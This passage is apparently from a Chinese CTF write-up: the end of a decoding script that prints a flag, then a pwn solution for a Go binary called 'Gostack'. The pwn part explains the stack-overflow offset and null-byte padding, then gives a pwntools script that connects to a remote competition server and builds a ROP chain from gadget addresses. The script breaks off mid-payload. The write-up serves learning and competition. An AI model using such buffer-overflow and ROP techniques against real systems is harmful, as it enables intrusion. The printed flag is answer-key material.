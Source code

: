```Python

# 先交换位置
swapped_numbers = swap_pairs(original_numbers)

# 再合并数字
merged_numbers = merge_numbers(swapped_numbers)

result = ""
for num in merged_numbers:
    num -= 0x1E
    num ^= 0x4D
    num -= 0x14
    num //= 0x50
    result += chr(num)

print(result)
```

运行得到flag：flag{67e9a228e45b622c2992fb5174a4f5f5}

## PWM

### Gostack

**解题思路**

- 因为没有接触过go语言，因此此题的思路全部基于动态调试和试错。先运行程序，发现可以输入很长的信息，尝试先输入很少的垃圾数据，保证程序正确运行。接着打断点，调试，发现输入的数据都会被转移到栈上。计算rbp距离输入点的距离则可以计算出payload应该填多少垃圾数据。
- 但是因为尝试输入垃圾数据过多时程序就会在ret之前提前爆炸，貌似因为rdi的值为非法代码地址，所以自然想到了输入特殊字符替代垃圾数据尝试，如：/x00，当然测试出这一步并非一番丰顺，最开始的思路是我观察当程序正确执行的时候的寄存器的值分别是多少,我也动态调试观察到了他们的值是在栈上复制的，但是问题来了，栈上给他们赋值的值并非我们可以控制输入的，所以跟这个就没有关系了，既然不是构造的问题，那么就是垃圾数据本身的问题，我就尝试着把他们都替换成/x00，我也无法相信但是确实过了，就是那么神奇。既然返回地址可以ret，那么接下来就是找代码块了
- 因为一开始我不知道是什么程序，浏览了很多代码段，不管有用没用，发现了system调用（也可以用ida查找），然后用ropgadget又找到了一堆popret（但是有用的就几个），但是就是那么巧，寄存器都能附上值。到达此处这道题算是解出来了。
- 至于调试方法就自行了解吧

**py**

```Python
from pwn import*
#io = process("./gostack")
io = remote("8.147.128.96",16329)
context.log_level="debug"
#io.recvuntil("Happy magic golang!\n")
#gdb.attach(io)
#raw_input("a")
#gdb.attach(io)
raw_input("a")
io.recvuntil("Happy magic golang!\n")

io.recvuntil(b"Input your magic message :\n")
bss =0x00000000005633E8
poprdi = 0x00000000004a18a5
poprsi = 0x000000000042138a
poprax = 0x000000000040f984
poprdx = 0x00000000004944ec
syscall = 0x00000000004616C9        
payload = p64(poprdi)
payload += 6*p64(0)
payload += p64(poprax)
payload += p64(0)
payload += p64(poprsi)
payload += p64(bss)
payload += p64(poprdx)
payload += p64(20)
```
